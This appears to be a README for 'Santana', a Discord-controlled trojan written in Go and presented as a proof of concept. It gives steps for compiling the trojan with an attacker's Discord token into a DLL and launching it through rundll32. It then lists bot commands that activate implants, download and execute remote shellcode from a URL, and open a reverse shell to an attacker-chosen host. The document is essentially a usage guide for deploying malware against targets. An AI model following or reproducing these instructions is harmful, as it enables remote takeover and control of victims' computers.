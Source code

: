 ```
 /$$$$$$ /$$   /$$               /$$$$$$                        /$$                                   /$$
|_  $$_/| $$  | $/              /$$__  $$                      | $$                                  | $$
  | $$ /$$$$$$|_//$$$$$$$      | $$  \__/  /$$$$$$  /$$$$$$$  /$$$$$$    /$$$$$$  /$$$$$$$   /$$$$$$ | $$
  | $$|_  $$_/  /$$_____/      |  $$$$$$  |____  $$| $$__  $$|_  $$_/   |____  $$| $$__  $$ |____  $$| $$
  | $$  | $$   |  $$$$$$        \____  $$  /$$$$$$$| $$  \ $$  | $$      /$$$$$$$| $$  \ $$  /$$$$$$$|__/
  | $$  | $$ /$$\____  $$       /$$  \ $$ /$$__  $$| $$  | $$  | $$ /$$ /$$__  $$| $$  | $$ /$$__  $$    
 /$$$$$$|  $$$$//$$$$$$$/      |  $$$$$$/|  $$$$$$$| $$  | $$  |  $$$$/|  $$$$$$$| $$  | $$|  $$$$$$$ /$$
|______/ \___/ |_______/        \______/  \_______/|__/  |__/   \___/   \_______/|__/  |__/ \_______/|__/


"These blocks belong to us homie remember I told you that!"

                                                            ~ Santana
```

Discord based trojan serving as a proof of concept for [TheKillchain](https://github.com/bakarilevy/TheKillchain)

## Compiling

This trojan is intended to be compiled with your discord token in the source code prior to deployment.
```go
var DISCORD_TOKEN string = "YOUR_DISCORD_TOKEN_HERE"
```
For this reason you will need to compile this on a device with the Go compiler installed.
The preferred method of using this tool is as a native dynamic link library.
In order to compile Go source code as a dynamic link library you will need to run the following commands:

```
go mod init Santana
go mod tidy
```

```
go build -o <dll-name>.dll -buildmode=c-shared

go build -o santana.dll -buildmode=c-shared
```

You will substitute the dll-name variable with the name of the dll you would like to output.

To run the DLL you will have to run the following command in the terminal:
```
rundll32.exe <dll-path>,<entry-point>

rundll32.exe santana.dll,DllMain
```

## Code Execution

How do we manage to achieve code execution from the dll?
There are several ways to achieve this, in TheKillchain I discuss using the living off the land technique to execute the DLL main function of the dll.

## Usage

Once the trojan has been loaded it will check in to your Discord server however it will not take any actions.
You can interact with the trojan by running the !salute command.
This will generate a unique id for the trojan after which you can run the !set-active command with the generated id to allow the trojan to execute commands on the target.

```
!set-active <UUID>
```

UUID will be the string you get from running the !salute command.

Currently I have implemented shellcode execution using this tool as well as a reverse shell.
Due to how noisy using the GetAsyncKeyState Win32api function is I have decided not to include the keylogger as functionality for the tool.
I may consider adding this functionality later.

To execute shellcode simply provide a url to the location of your shellcode as a base64 encoded string in a json format:

JSON Shellcode:
```json
{
    "Shellcode": "BASE64ENCODEDSHELLCODE"
}
```

Using Discord command:
```
!exec-shellcode https://<my-domain>.com/my/shellcode/shellcode.json
```

To get the reverse shell use the commands to set the host and port in discord:
```
!set-rshell-host <ip-addr/domain>
!set-rshell-post <port-number>
!reverse-shell
```

You can of course check those settings running the get commands:
```
!get-rshell-host
!get-rshell-port
```

## TODO
- Add functions for Go CLR module